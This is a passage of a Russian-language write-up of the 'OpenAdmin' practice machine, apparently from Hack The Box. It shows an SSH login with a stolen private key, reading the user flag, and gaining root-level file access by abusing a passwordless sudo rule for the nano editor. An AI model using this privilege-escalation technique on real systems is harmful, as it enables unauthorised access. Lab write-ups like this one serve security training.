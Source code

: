 >Далее с помощью ключа и пароля войдем как joanna:

```html
root@kali:~# chmod 700 rsa
root@kali:~# ssh -i rsa joanna@10.10.10.171
Enter passphrase for key 'rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Apr  2 15:16:06 2020 from 10.10.14.218
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt
c9b2cf07d40807e62af626**********
```

>Остался только рут, посмотрим что мы можем от него запускать:

```html
joanna@openadmin://$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

>Редактор nano и файл priv, попробуем прочесть root.txt из файла priv:

```html
joanna@openadmin://$ sudo /bin/nano opt/priv
```

>Далее жмем ctrl+R чтобы прочесть другой файл.

```html
File to insert [from ./]: root/root.txt:
2f907ed450b361b2c2bf4e**********
```